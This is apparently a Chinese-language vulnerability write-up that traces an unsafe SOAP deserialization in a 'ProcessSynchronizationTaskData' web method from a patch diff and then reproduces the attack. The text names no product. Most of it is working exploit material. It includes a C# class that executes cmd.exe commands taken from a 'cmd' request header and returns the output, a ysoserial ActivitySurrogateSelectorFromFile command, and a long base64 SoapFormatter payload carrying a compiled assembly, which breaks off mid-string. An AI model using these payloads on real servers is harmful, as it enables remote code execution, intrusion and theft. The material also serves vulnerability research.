

看一下在11.0.47的补丁



直接将serializedStagingTaskData字符串进行反序列化，由此可见漏洞点就在这里。查看该类的引用



在SyncServer中找到了引用



标注了`MessageName="ProcessSynchronizationTaskData")`，搜索下ProcessSynchronizationTaskData，在SyncServerWse找到了调用。



参数为stagingTaskData，来复现下。

我们使用ActivitySurrogateSelectorFromFile链生成soap格式的payload，并且自定义加载的程序集。这里自己写一个从header中获取参数执行命令的代码。

```csharp
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Headers["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

生成命令

```
ysoserial.exe -g ActivitySurrogateSelectorFromFile -f SoapFormatter -c "dlls\E.cs;System.Web.dll;System.dll"
```

```xml
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<a1:AxHost_x002B_State id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/System.Windows.Forms/System.Windows.Forms%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089">
<PropertyBagBinary href="#ref-3"/>
</a1:AxHost_x002B_State>
<SOAP-ENC:Array id="ref-3" xsi:type="SOAP-ENC:base64">AAEAAAD/////AQAAAAAAAAAEAQAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24FAAAICAkCAAAACgAAAAoAAAAQAgAAABAAAAAJAwAAAAkEAAAACQUAAAAJBgAAAAkHAAAACQgAAAAJCQAAAAkKAAAACQsAAAAJDAAAAA0GBwMAAAABAQAAAAEAAAAHAgkNAAAADA4AAABhU3lzdGVtLldvcmtmbG93LkNvbXBvbmVudE1vZGVsLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNQUEAAAAalN5c3RlbS5Xb3JrZmxvdy5Db21wb25lbnRNb2RlbC5TZXJpYWxpemF0aW9uLkFjdGl2aXR5U3Vycm9nYXRlU2VsZWN0b3IrT2JqZWN0U3Vycm9nYXRlK09iamVjdFNlcmlhbGl6ZWRSZWYCAAAABHR5cGULbWVtYmVyRGF0YXMDBR9TeXN0ZW0uVW5pdHlTZXJpYWxpemF0aW9uSG9sZGVyDgAAAAkPAAAACRAAAAABBQAAAAQAAAAJEQAAAAkSAAAAAQYAAAAEAAAACRMAAAAJFAAAAAEHAAAABAAAAAkVAAAACRYAAAABCAAAAAQAAAAJFwAAAAkYAAAAAQkAAAAEAAAACRkAAAAJGgAAAAEKAAAABAAAAAkbAAAACRwAAAABCwAAAAQAAAAJHQAAAAkeAAAABAwAAAAcU3lzdGVtLkNvbGxlY3Rpb25zLkhhc2h0YWJsZQcAAAAKTG9hZEZhY3RvcgdWZXJzaW9uCENvbXBhcmVyEEhhc2hDb2RlUHJvdmlkZXIISGFzaFNpemUES2V5cwZWYWx1ZXMAAAMDAAUFCwgcU3lzdGVtLkNvbGxlY3Rpb25zLklDb21wYXJlciRTeXN0ZW0uQ29sbGVjdGlvbnMuSUhhc2hDb2RlUHJvdmlkZXII7FE4PwIAAAAKCgMAAAAJHwAAAAkgAAAADw0A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S2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAQAAAABwAAAAkDAAAACgkkAAAACggIAAAAAAoICAEAAAABEQAAAA8AAAAGJQAAAPUCU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAJIgAAABASAAAABwAAAAkEAAAACgkoAAAACggIAAAAAAoICAEAAAABEwAAAA8AAAAGKQAAAN8DU3lzdGVtLkxpbnEuRW51bWVyYWJsZStXaGVyZVNlbGVjdEVudW1lcmFibGVJdGVyYXRvcmAyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQFAAAAAcAAAAJBQAAAAoJLAAAAAoICAAAAAAKCAgBAAAAARUAAAAPAAAABi0AAADmAlN5c3RlbS5MaW5xLkVudW1lcmFibGUrV2hlcmVTZWxlY3RFbnVtZXJhYmxlSXRlcmF0b3JgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0EAAAACSIAAAAQFgAAAAcAAAAJBgAAAAkwAAAACTEAAAAKCAgAAAAACggIAQAAAAEXAAAADwAAAAYyAAAA7wFTeXN0ZW0uTGlucS5FbnVtZXJhYmxlK1doZXJlU2VsZWN0RW51bWVyYWJsZUl0ZXJhdG9yYDJbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uT2JqZWN0LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAJIgAAABAYAAAABwAAAAkHAAAACgk1AAAACggIAAAAAAoICAEAAAABGQAAAA8AAAAGNgAAAClTeXN0ZW0uV2ViLlVJLldlYkNvbnRyb2xzLlBhZ2VkRGF0YVNvdXJjZQQAAAAGNwAAAE1TeXN0ZW0uV2ViLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49YjAzZjVmN2YxMWQ1MGEzYRAaAAAABwAAAAkIAAAACAgAAAAACAgKAAAACAEACAEACAEACAgAAAAAARsAAAAPAAAABjkAAAApU3lzdGVtLkNvbXBvbmVudE1vZGVsLkRlc2lnbi5EZXNpZ25lclZlcmIEAAAABjoAAABJU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4ORAcAAAABQAAAA0CCTsAAAAICAMAAAAJCwAAAAEdAAAADwAAAAY9AAAANFN5c3RlbS5SdW50aW1lLlJlbW90aW5nLkNoYW5uZWxzLkFnZ3JlZ2F0ZURpY3Rpb25hcnkEAAAABj4AAABLbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5EB4AAAABAAAACQkAAAAQHwAAAAIAAAAJCgAAAAkKAAAAECAAAAACAAAABkEAAAAACUEAAAAEJAAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAgAAAAhEZWxlZ2F0ZQdtZXRob2QwAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCUIAAAAJQwAAAAEoAAAAJAAAAAlEAAAACUUAAAABLAAAACQAAAAJRgAAAAlHAAAAATAAAAAkAAAACUgAAAAJSQAAAAExAAAAJAAAAAlKAAAACUsAAAABNQAAACQAAAAJTAAAAAlNAAAAATsAAAAEAAAACU4AAAAJTwAAAARCAAAAMFN5c3RlbS5EZWxlZ2F0ZVNlcmlhbGl6YXRpb25Ib2xkZXIrRGVsZWdhdGVFbnRyeQcAAAAEdHlwZQhhc3NlbWJseQZ0YXJnZXQSdGFyZ2V0VHlwZUFzc2VtYmx5DnRhcmdldFR5cGVOYW1lCm1ldGhvZE5hbWUNZGVsZWdhdGVFbnRyeQEBAgEBAQMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BlAAAADVAVN5c3RlbS5GdW5jYDJbW1N5c3RlbS5CeXRlW10sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV0sW1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABlIAAAAaU3lzdGVtLlJlZmxlY3Rpb24uQXNzZW1ibHkGUwAAAARMb2FkCgRDAAAAL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyBwAAAAROYW1lDEFzc2VtYmx5TmFtZQlDbGFzc05hbWUJU2lnbmF0dXJlClNpZ25hdHVyZTIKTWVtYmVyVHlwZRBHZW5lcmljQXJndW1lbnRzAQEBAQEAAwgNU3lzdGVtLlR5cGVbXQlTAAAACT4AAAAJUgAAAAZWAAAAJ1N5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoQnl0ZVtdKQZXAAAALlN5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5IExvYWQoU3lzdGVtLkJ5dGVbXSkIAAAACgFEAAAAQgAAAAZYAAAAzAJTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uUmVmbGVjdGlvbi5Bc3NlbWJseSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmFibGVgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAACVIAAAAGWwAAAAhHZXRUeXBlcwoBRQAAAEMAAAAJWwAAAAk+AAAACVIAAAAGXgAAABhTeXN0ZW0uVHlwZVtdIEdldFR5cGVzKCkGXwAAABhTeXN0ZW0uVHlwZVtdIEdldFR5cGVzKCkIAAAACgFGAAAAQgAAAAZgAAAAtgNTeXN0ZW0uRnVuY2AyW1tTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYWJsZWAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM